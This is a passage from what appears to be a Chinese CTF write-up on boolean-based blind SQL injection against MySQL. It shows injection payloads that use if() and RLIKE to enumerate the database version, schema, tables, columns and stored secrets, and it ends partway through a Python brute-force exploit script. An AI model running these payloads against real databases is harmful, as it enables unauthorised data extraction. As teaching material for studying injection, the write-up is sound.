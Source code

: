 1

![img](C:\Users\24993\Desktop\博客文章\static\boxcnJ3jImTQcMUOWJclTACj74e.png)

sql

```
SELECT password FROM users WHERE username = 'Liki4' AND if(@@version rlike '^8',1,0);
```

1

![img](C:\Users\24993\Desktop\博客文章\static\boxcnEDPFbKQ6iaM5WhHWUWmI5d.png)

也就是说，当 if 语句中的条件为真时，这个查询才会将 password 查询出来

如果 if 语句为假，这个条件为假的查询就不成立，查询的结果也为空了

从上面这个例子里我们就可以得出当前 MySQL 为 MySQL 5

如此一来我们就可以通过枚举爆破得到数据库名，表名，列名，进而得到数据库中存储的数据了

其中关键的语句如下

sql

```
if(DATABASE() rlike '^{exp}',1,0) # 获取数据库名
if((SELECT GROUP_CONCAT(table_name, ':', column_name) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE()) rlike '^{exp}',1,0) # 获取表名与字段名
if((SELECT binary GROUP_CONCAT(secret_string) FROM secret) rlike '^{exp}',1,0) # 获取存储的数据
```

1
2
3

完整 exp 如下

python

```
from mysqli_invisible_bool import *
import string
import io
import sys

def escape_string(c):
    return "\\" + c if c in ".+*" else c

def exp():
    payload_template = "Liki4' AND if({exp},1,0);#"
    space = string.ascii_letters + string.digits + ' _:,$.'

    exp_template = "@@version RLIKE '^{c}'"
    exp_template = "DATABASE() RLIKE '^{c}'"
    exp_template = "(SELECT GROUP_CONCAT(table_name, ':', column_name) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE()) RLIKE '^{c}'"
    exp_template = "(SELECT binary GROUP_CONCAT(secret_string) FROM secret) RLIKE '^{c}'"

    print(exp_template)

    Flag = True

    data = ""

    while Flag:
        ori_stdout = sys.stdout
        for c in space:
            payload = payload_template.format(exp=exp_template.format(c=data+c))
            sys.stdin = io.StringIO(payload + '\n123\n')
```